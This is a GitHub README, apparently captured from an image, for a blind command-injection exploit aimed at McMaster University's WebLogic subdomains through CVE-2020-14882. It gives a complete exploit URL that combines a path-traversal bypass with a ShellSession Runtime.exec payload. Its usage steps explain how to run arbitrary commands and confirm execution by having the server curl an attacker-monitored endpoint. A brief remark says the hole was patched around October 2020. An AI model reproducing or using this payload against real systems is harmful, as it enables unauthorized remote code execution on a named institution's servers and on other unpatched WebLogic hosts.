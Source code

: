 (patched as of around 10/30/20)
# McMaster-University-Blind-Command-Injection
This targets McMaster University's website and takes advantage of CVE-2020-14882 in the outdated version of WebLogic Server (12.2.1.3.0), which is present in the university's subdomains, mosaic.mcmaster.ca and epprd.uts.mcmaster.ca.
# Usage
1. Replace "COMMAND" in [https://mosaic.mcmaster.ca/console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('COMMAND');");](https://mosaic.mcmaster.ca/console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('COMMAND');");)
2. Open the link. It should show an error but the command still runs. You can confirm it by using curl in the command to GET an endpoint URL that you monitor (which you can set in, for example, ReqBin). Then, when you open the link, an event should come up indicating that the curl command was successfuly executed.
